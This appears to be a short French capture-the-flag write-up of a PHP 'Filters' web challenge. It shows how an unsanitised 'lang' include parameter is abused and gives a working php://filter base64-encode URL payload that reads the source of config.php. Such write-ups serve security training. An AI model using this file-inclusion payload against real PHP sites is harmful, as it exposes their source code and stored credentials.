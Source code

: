 ## Filters

Ce challenge concerne les filtres en php. Ces filtres permettent d'appliquer des conversions en base64 par exemple sur des ressources.

```URL
https://filters.secu-web.blackfoot.dev/index.php?lang=fr.php
```
Ici le paramètre lang va nous permettre d'injecter un filtre avec le fichier config.php qui est require d'après le code source

```PHP
require('config.php');
```

On va donc passer notre payloads directement dans l'url

```
https://filters.secu-web.blackfoot.dev/index.php?lang=php://filter/convert.base64-encode/resource=config.php
```
